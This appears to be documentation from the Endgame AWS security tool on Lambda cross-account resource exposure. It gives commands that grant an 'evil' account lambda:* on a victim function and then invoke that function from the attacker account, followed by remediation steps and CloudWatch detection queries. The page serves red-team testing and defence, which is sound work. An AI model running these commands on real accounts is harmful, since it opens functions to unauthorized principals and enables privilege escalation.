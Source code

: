 # Lambda Function Cross-Account Access

AWS Lambda Permission Policies (aka resource-based policies) can allow functions to be invoked from AWS accounts other than the one it is running in.

Compromised Lambda functions are a known attack path for [Privilege Escalation](https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-lambda-privilege-escalation/) and other nefarious use cases. While the impact often depends on the context of the Lambdas itself, Lambda functions often modify AWS infrastructure or have data plane access. Abusing these capabilities could compromise the confidentiality and integrity of the resources in the account.

Existing Exploitation tools such as [Pacu](https://github.com/RhinoSecurityLabs/pacu) have capabilities that help attackers exploit compromised Lambda functions. Pacu, for example, has modules that leverage Lambda functions to [backdoor new IAM roles](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_roles), to [modify security groups](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_sec_groups), and to [create new IAM users](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_users). As such, Lambda functions are high-value targets to attackers, and existing exploitation frameworks such as Pacu and others increase the likelihood for abuse when a Lambda function is compromised.

## Steps to Reproduce

* **Option 1**: To expose the Lambda function using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda --name test-resource-exposure
```

* **Option 2**: To expose the Lambda Function using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777

aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id Endgame \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws lambda get-policy --function-name test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command to invoke the function in the victim account:

```bash
export VICTIM_LAMBDA=arn:aws:lambda:us-east-1:111122223333:test-resource-exposure
aws lambda invoke --function-name $VICTIM_LAMBDA
```

* Observe that the output resembles the following:

```json
{
    "ExecutedVersion": "$LATEST",
    "StatusCode": 200
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that cross-account Lambda functions allow access only to trusted accounts to prevent unknown function invocation requests
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Functions. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Functions**: Tightly control access to the following IAM actions:
  - [lambda:AddPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddPermission.html): _Grants permission to give an AWS service or another account permission to use an AWS Lambda function_
  - [lambda:GetPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetPolicy.html): _Grants permission to view the resource-based policy for an AWS Lambda function, version, or alias_
  - [lambda:InvokeFunction](https://docs.aws.amazon.com/lambda/latest/dg/API_Invoke.html): _Grants permission to invoke an AWS Lambda function_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:RemovePermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemovePermission.html): _Grants permission to revoke function-use permission from an AWS service or another account_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and eventName like 'AddPermission'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and (eventName like 'AddPermission' and requestParameters.statementId='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws lambda add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
